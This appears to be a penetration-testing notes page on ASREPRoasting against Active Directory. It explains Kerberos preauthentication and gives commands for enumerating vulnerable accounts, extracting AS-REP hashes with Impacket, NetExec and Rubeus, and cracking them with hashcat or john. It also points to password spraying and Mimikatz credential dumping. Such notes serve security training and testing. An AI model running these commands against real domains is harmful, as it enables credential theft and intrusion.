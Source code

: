 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ASREPRoasting

## Concept

**ASREPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**.&#x20;

**Preauthentication** is a security feature in Kerberos where the client must prove knowledge of their password before the KDC issues a TGT. This is done by encrypting a timestamp with a key derived from the user’s password and sending it to the KDC. If the KDC can decrypt and validate the timestamp, it confirms the user knows their password — protecting against offline brute-force attacks.

If an account has the [`Do not require Kerberos pre-authentication`](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **AS-REP**. The AS-REP contains the **TGT** which is encypted with the account's password hash which can be potentially cracked.

<figure><img src="../../../.gitbook/assets/asreproasting_process (2).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Attack <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="Linux" %}
We can enumerate accounts with the preauthentication feature disabled using `GetNPUsers` or `kerbrute`.

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script
impacket-GetNPUsers corp.com/robert -dc-ip <dc-ip>

# Kerbrute
kerbrute userenum -d corp.com --dc <dc-ip> /opt/jsmith.txt
```
{% endcode %}

Then we can ASREPRoast the enumerated accounts using `GetNPUsers` or `nxc`.

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script with a list of users
impacket-GetNPUsers corp.com/ -dc-ip 172.16.5.5 -no-pass -usersfile users.txt

# For a target user
$ impacket-GetNPUsers relia.com/michelle -dc-ip 172.16.163.6 -no-pass

# NetExec
nxc ldap 10.10.10.161 -u users.txt -p '' --asreproast asreproast.lst
```
{% endcode %}

Finally, we can crack the extracted hashes with `hashcat` or `john`.

{% code overflow="wrap" %}
```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou

# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
We can enumerate accounts with the preauthentication feature disabled using [PowerView](../../../tools/active-directory/powerview.md).

{% code overflow="wrap" %}
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
{% endcode %}

Then we can ASREPRoast the enumerated accounts using [`rubeus`](../../../tools/active-directory/rubeus.md).

```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```

Finally, we can crack the extracted hashes on our attacking machine with `hashcat` or `john`.

{% code overflow="wrap" %}
```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou

# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```
{% endcode %}
{% endtab %}
{% endtabs %}

If we successfully crack the hash, we can perform a [password spraying](../../../tools/active-directory/netexec.md#password-spray) attack across the network using NetExec. If the compromised user has local administrator privileges on any host, we can then extract cached credentials—such as those stored in [LSASS](../../../tools/active-directory/mimikatz.md#pass-the-hash)—using tools like Mimikatz.

> _For an example of ASREPRoasting with `nxc` check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#asreproasting)_._

## Targeted ASREPRoasting

If we can't find any vulnerable users, but we have `GenericWrite` or `GenericAll` on a user object, we can modify that user's `UserAccountControl` to disable preauthentication and then perform the ASREP roast attack. Don't forget to reset the `UserAccountControl` after extraction!

## Resources

{% tabs %}
{% tab title="Video" %}
{% embed url="https://www.youtube.com/watch?index=4&list=PLDrNMcTNhhYqZj7WZt2GfNhBDqBnhW6AT&v=EVdwnBFtUtQ" %}
{% endtab %}

{% tab title="GetNPUsers" %}
{% embed url="https://www.youtube.com/watch?v=pZSyGRjHNO4" %}
The workings of GetNPUsers script!
{% endembed %}
{% endtab %}

{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=wA9w8t1fRWo" %}
ASREPRoasting in 10 minutes!
{% endembed %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://blog.notso.pro/2020-05-07-offops-in-ad-0/" %}
A great article detailing each step of the Kerberos process.
{% endembed %}
{% endtab %}
{% endtabs %}
